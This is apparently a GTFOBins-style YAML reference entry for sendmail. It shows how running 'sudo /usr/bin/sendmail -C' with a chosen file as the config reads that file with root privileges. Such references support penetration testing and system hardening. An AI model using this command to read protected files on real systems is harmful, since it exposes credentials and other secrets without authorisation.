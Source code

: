 ```yaml
---
functions:
  sudo:
    - code: |
        LFILE=file_to_read
        sudo /usr/bin/sendmail -tf aaa -C$LFILE
---
```

